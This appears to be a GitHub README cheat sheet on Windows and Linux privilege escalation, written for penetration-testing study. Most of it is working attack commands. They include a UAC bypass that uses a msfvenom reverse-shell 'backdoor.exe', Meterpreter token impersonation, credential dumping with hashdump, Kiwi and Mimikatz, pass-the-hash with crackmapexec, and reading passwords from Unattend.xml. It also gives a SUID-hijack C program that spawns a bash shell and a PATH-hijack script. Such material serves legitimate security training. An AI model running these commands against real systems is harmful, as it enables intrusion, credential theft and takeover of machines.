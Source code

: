 # $\color{#009466}\textbf{Windows}$


Note: if you have a valid user credential you can authenticate in windows target from SMB, RDP, WinRM
<br>

<details>
<summary>$\huge{\text{Automation script}}$</summary>

- https://github.com/itm4n/PrivescCheck : useful for gather information
- `powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"` : run from command prompt

<br><br>  
</details>

<details>
<summary>$\huge{\text{UAC Bypass}}$</summary>
 
- User Account Control (UAC) is a feature that enables a consent prompt for elevated activities.
- Prerequisites:
  1.  User must be a member of the Administrators group.
     - `net localgroup administrators`
  2. Full interactive shell with the victim (a common nc.exe shell is not enough).
     - You can use meterpreter
- Metasploit
  - search module bypassuac ...
- UACME
  1. If architecture is x64 it's better to use meterpreter x64 or migrate to process x64 with sessions=1
     - `ps` to show process 
     - (ex. `migrate <PID explorer.exe>`)
  3. Upload Akagi (Akagi64.exe if x64)
  3. Create payload with msfvenom
     - `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o backdoor.exe`
  5. Use exploit/multi/handler to start a listener
  6. `Akagi64.exe 23 <payload_full_path>`
     - **NOTE FULL PATH**
  7. Once run, we will get meterpreter session - getprivs/getsystem to get elevated privs

<br><br>
</details>

<details>
<summary>$\huge{\text{Impersonate Tokens}}$</summary>
  
- With msfconsole: `load incognito`
- `list_tokens -u`
  - ```
     Delegation Tokens Available
     ========================================
     ATTACKDEFENSE\Administrator
     NT AUTHORITY\LOCAL SERVICE
     
     Impersonation Tokens Available
     ========================================
     No tokens available
    ```
- `impersonate_token <token_name>`
  - `impersonate_token ATTACKDEFENSE\\Administrator` **NOTE: the two backslashes**
- You may need to migrate process to a \<user> process
  - Ex. `getpid` : 2628, `ps` :
    |PID  | PPID | Name | Arch | Session | User | Path|
    | ---  | --- | --- | ---  | --- | --- | --- |
    |2628 | 4780 | WHAYQtsbkO.exe |  | 1 | | |
    |... | ... | ... | ... | ... | ... | ... |
    |2948 | 2036 | explorer.exe | X64 | 1 | ATTACKDEFENSE\Administrator | C:\Windows\explorer.exe |
- `getpid` : 2948
- Of course you can repeat the process to become NT AUTHORITY\SYSTEM

<br><br>
</details>

<details>
<summary>$\huge{\text{Password in configuration file (Unattend.xml)}}$</summary>

- An answer file is an XML-based file that contains setting definitions and values to use during Windows Setup. Answer files (or Unattend files) are used by Administrators when they are setting up fresh images as it allows for an automated setup for Windows systems.
- ```
  C:\unattend.xml
  C:\Windows\Panther\Unattend.xml
  C:\Windows\Panther\Unattend\Unattend.xml
  C:\Windows\system32\sysprep.xml
  C:\Windows\system32\sysprep\sysprep.xml
  ```
- Extract password and decode it (from base64)

<br><br>     
</details>

<details>
<summary>$\huge{\text{Credential Dumping (Mimikatz - Kiwi - Hashdump)}}$</summary>
    
- Prerequisites: User must be a member a local Administrators.
1) hashdump (Metasploit - Meterpreter)
   - You may need to migrate meterpreter to NT AUTHORITY\SYSTEM process (ex. `migrate <PID explorer.exe>`)
   - `hashdump`
2) Kiwi (Metasploit - Meterpreter)
   - You may need to migrate meterpreter to NT AUTHORITY\SYSTEM process (ex. `migrate <PID explorer.exe>`)
   - `load kiwi`
   - `creds_all` Retrieve all credentials (parsed)
   - `lsa_dump_sam` Here you can see that NTLM hashes for all of the user accounts on the system.
   - To find the clear text passwords : `lsa_dump_secrets`
     - However, from the Windows version 8.0+, windows don’t store any plain text password. So, it can be helpful for the older version of the Windows.
3) Mimikatz
   - upload mimikatz.exe
   - `\mimkatz.exe`
   - `privilege::debug` - should return Privilege '20' OK - This should be a standard for running mimikatz as it needs local administrator access
   - `lsadump::sam` : NTLM hashes for all of the user accounts on the system 
   - `sekurlsa::logonpasswords` : To find the clear text passwords, but it's not always possible

<br><br>
</details>

<details>
<summary>$\huge{\text{Pass the Hash}}$</summary>

1) `crackmapexec smb <ip> -u <administrator> -H <NTLM hash> -x "ipconfig"`
2) Metasploit : windows/smb/psexec and set SMBPass with `<LM hash>:<NTLM hash>`
   - empty LM hash : `AAD3B435B51404EEAAD3B435B51404EE` (means its non-use).
     - `AAD3B435B51404EEAAD3B435B51404EE:<NTLM>`
   - With `hashdump` you have the right format

<br><br>
</details>

<details>
<summary>$\huge{\text{Other}}$</summary>

- Powershell History
- Saved Windows Credentials
  - cmdkey /list
  - runas /savecred /user:admin cmd.exe
- Scheduled Tasks
- Insecure Permissions on Service Executable
- Unquoted Service Paths
- Insecure Service Permissions
- Windows Privileges
- Unpatched Software

<br><br>
</details>


# $\color{#009466}\textbf{Linux}$

<details>
<summary>$\huge{\text{Vulnerable program}}$</summary>

- Search scripts that execute programs or programs. : Search for any vulnerable version. One example: chkrootkit v0.49 (running as root)
  - `ps aux`

<br>
</details>

<details>
<summary>$\huge{\text{Weak Permissions}}$</summary>
  
- `find / -not -type l -perm -o+w ` : world-writable files
  - Example: maybe you can edit shadow file...

<br>
</details>

<details>
<summary>$\huge{\text{Sudo}}$</summary>
  
- `sudo -l`
  - search on gtfobins how to exploit

<br>
</details>

<details>
<summary>$\huge{\text{SUID - custom binary}}$</summary>
  
- Premise: you have `binary_name` (with suid) that use/load/execute `loaded_binary`
- Extract strings from the binary – look for shared libraries or binaries being loaded / executed at runtime
  - `strings binary_name`
1. Method
   - `cp /bin/bash /path/to/loaded_binary`
2. Method
- Delete the loaded binary and replace with a new one:
- ```
  #include <stdio.h>
  #include <stdlib.h>
  
  int main() {
      system("/bin/bash -i"); 
      return 0;
  }
  ```
- `gcc binary.c -o <loaded_binary>` : compile
- `./binary_name` : run the binary


<br>
</details>

<details>
<summary>$\huge{\text{Other}}$</summary>

- `sudo -l`
  - setenv?
- SUID/GUID
- Look for capabilities
- History Files
- Docker group
- Cron jobs
- SSH Keys
- PATH
- NFS
- Writable /etc/shadow
- Writable /etc/passwd
- Are there scripts that use commands?
  - If the command is executed without full path you can modify PATH variable
  - ` strings <program_name> `
  - you see ` tail -f /var/log/nginx/access.log `
  - ```
    #!/bin/bash
    /bin/bash -p
    ```
  - ` chmod +x /tmp/tail `
  - ` export PATH=/tmp:$PATH `
  - ` ./<program_name> `
- Is there a database? Can I access to it?
  - Look at config file or source code of webpages connecting to db
- Look at the source code of the php,py,jsp ... files of the website
  - Especially login files. Any password?
- Writable authorized_key folder?
  - generate new ssh keys
- Can I read some file with sudo?
  - /root/root.txt, /etc/shadow, /root/.ssh/id_rsa
- Can I write a file in the root user directory?
  - generate ssh key with ssh-keygen and save it in the root user dir
- Kernel Exploits
- Linpeas.sh
- [GTFObins](https://gtfobins.github.io)

<br><br>
</details>

# Resource
- **juggernaut-sec.com/blog/** Windows/Linux privesc and active directory hacking
- **gtfobins.github.io** *GTFOBins is a curated list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems*
- **github.com/carlospolop/PEASS-ng/tree/master/linPEAS** *Linux Privilege Escalation Awesome Script*
- **github.com/DominicBreuker/pspy** *Monitor linux processes without root permissions*
- **github.com/gtworek/Priv2Admin** *Windows Privileges with Windows OS privileges*
